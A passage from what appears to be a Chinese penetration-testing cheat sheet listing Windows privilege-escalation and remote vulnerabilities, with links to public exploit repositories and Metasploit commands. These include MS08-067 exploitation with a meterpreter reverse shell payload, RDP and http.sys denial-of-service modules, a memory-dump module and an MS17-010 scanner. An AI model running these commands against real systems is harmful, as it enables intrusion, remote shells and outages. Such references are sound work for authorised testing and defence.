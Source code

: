 **CVE-2020-1170 Microsoft Windows Defender 提权漏洞**
- 文章
    - [CVE-2020-1170 Microsoft Windows Defender 提权漏洞](https://mp.weixin.qq.com/s/chQH0m1wjFxE9bYP5lABTg)

**CVE-2021-1732**
- POC | Payload | exp
    - [KaLendsi/CVE-2021-1732-Exploit](https://github.com/KaLendsi/CVE-2021-1732-Exploit)

---

## 远程漏洞

**MS08-067 & CVE-2008-4250**
- MSF 模块
    ```bash
    use exploit/windows/smb/ms08_067_netapi
    set payload windows/x64/meterpreter/reverse_tcp
    set target 0
    ```

**MS12-020 & CVE-2012-0002**
- MSF 模块
    ```bash
    use auxiliary/scanner/rdp/ms12_020_check
    use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
    ```

**MS14-066 & CVE-2014-6321**
- POC | Payload | exp
    - [anexia-it/winshock-test](https://github.com/anexia-it/winshock-test)

**MS15-034 & CVE-2015-1635**
- POC | Payload | exp
    - [MS15-034 Checker](https://pastebin.com/ypURDPc4)

- 相关文章
    - [MS15-034/CVE-2015-1635 HTTP远程代码执行漏洞分析](http://blogs.360.cn/post/cve_2015_6135_http_rce_analysis.html)

- MSF 模块
    ```bash
    use auxiliary/scanner/http/ms15_034_http_sys_memory_dump    # 读取服务器内存数据
    use auxiliary/dos/http/ms15_034_ulonglongadd    # 进行 dos 攻击
    ```

**CVE-2017-0143 - CVE-2017-0148 && MS17-010**
- MSF 模块
    ```bash
    # 发现,检测
    use auxiliary/scanner/smb/smb_ms17_010
    set rhosts [ip]
    run
